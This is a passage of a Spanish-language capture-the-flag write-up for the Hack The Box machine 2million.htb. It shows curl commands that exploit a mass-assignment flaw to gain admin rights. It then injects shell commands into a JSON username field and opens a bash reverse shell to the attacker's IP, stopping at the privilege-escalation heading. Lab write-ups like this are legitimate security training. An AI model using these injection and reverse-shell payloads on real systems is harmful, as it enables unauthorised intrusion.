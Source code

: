 Estas son todas las rutas, la de update, tiene pinra de ser vulnerable a un `MASS-ASIGNMENT ATTACK`

```bash
$: curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri" -H "Content-Type: application/json"
{"status":"danger","message":"Missing parameter: email"}

$: curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri" \
-H "Content-Type: application/json" -d'{"email":"cucuxii@cucuxii.com"}'
{"status":"danger","message":"Missing parameter: is_Admin"}

$: curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri" \
-H "Content-Type: application/json" -d '{"email":"cucuxii@test.com", "is_admin":"True"}'
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}

$: curl -s -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri" \
-H "Content-Type: application/json" -d '{"email":"cucuxii@test.com", "is_admin":1}'
{"id":70,"username":"cucuxii","is_admin":1}   

$: curl -s -X GET http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri"
{"message":true}
```

Siendo admins la unica ruta que tenemos es `/vpn/generate`, vamos a probar si es vilnerable a RCE

```bash
$: curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=3at041srm7ne3j3psmut4blqp4" -H "Content-Type: application/json" -d '{"username":"cucuxii; ping -c 1 10.10.15.20"}'

$: sudo tcpdump -i tun0 icmp -n
[sudo] password for jessica:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:02:20.187069 IP 10.10.11.221 > 10.10.15.20: ICMP echo request, id 10, seq 1, length 64
19:02:20.187088 IP 10.10.15.20 > 10.10.11.221: ICMP echo reply, id 10, seq 1, length 64
```
Como lo es, nos entablaremos una shell
```bash
$: curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=3at041srm7ne3j3psmut4blqp4" -H 
"Content-Type: application/json" -d $'{\"username\":\"cucuxii; bash -c \'bash -i >& /dev/tcp/10.10.15.20/443 0
>&1\'\"}'
```

---------------------------

# 3. Escalada de privilegios
